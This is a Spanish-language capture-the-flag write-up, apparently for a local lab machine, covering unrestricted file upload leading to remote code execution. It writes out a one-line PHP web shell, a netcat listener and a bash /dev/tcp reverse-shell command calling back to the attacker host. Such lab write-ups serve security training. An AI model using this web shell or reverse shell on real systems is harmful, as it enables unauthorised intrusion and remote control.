 ```bash

alice
bob
charlie
```

En esta ruta **m4ch1n3_upload.html** que esta mencionada desde los comentario en la pagina principal:
```bash
http://172.17.0.2/m4ch1n3_upload.html
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
En la web nos indica que podemos subir archivos: Tipos de archivo soportados: **.txt, .pdf, .php** asi que si podemos subir archivos php podemos aprovecharnos para subir uno malicioso:
**Nota** En caso de que no se logre ejecutar nuestro archivo, Probaremos con un ataque de extensiones

### Ejecucion del Ataque
Subiremos un archvo bajo el nombre: **shell.php** con la siguiente ruta:
```bash
http://172.17.0.2/m4ch1n3_upload.html
```

**shell.php**
```php
<?php
  system($_GET["cmd"]);
?>
```

Desde la misma web nos da la facilidad de acceder a nuestro archvio, Logrando tener **RCE**
```bash
# Comandos para explotación
http://172.17.0.2/uploads/shell.php?cmd=whoami
```

### Intrusion
Modo escucha para ganar acceso al objetivo
```bash
nc -nlvp 443
```

```bash
# Reverse shell o acceso inicial
172.17.0.2/uploads/shell.php?cmd=bash -c 'exec bash -i %26>/dev/tcp/172.17.0.1/443 <%261'
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
ls -la
```
